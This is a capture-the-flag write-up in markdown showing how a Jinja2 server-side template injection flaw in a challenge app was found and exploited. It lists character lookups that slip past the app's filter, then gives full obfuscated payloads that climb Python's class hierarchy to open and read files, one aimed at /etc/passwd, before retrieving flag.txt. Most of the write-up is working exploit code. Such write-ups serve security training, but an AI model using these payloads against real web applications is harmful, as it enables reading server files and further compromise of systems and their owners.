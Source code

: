 # Discovery of SSTI vuln:
```
http://challenge2.lagncrash.com:17654/{{7*7}}
```
![](./1.png)
Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
<br>
<br>
<br>

# Getting bypass filter codes:
```
[[]|map|string|list][0][0] = <
[[]|map|string|list][0][42] = >
[[]|map|string|list][0][20] = _
[[g]|string|list][0][13] = '
[[g]|string|list][0][7] = .
```

<br>
<br>
<br>

# Decided to try the payload:
Payload:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['fort', [1|float|string|list][0][1], 'py']|join,'r')|attr('read')() }}
```
Changed to /etc/passwd:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['/etc/passwd','r')|attr('read')() }}
```
![](./2.png)
<br>
<br>
<br>
Ditching start from scratch to just get flag.txt
![](./3.png)

Reference: https://fireshellsecurity.team/asisctf-fort-knox/ (All the techniques)
Reference: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ (Changing the techniques to do stuff)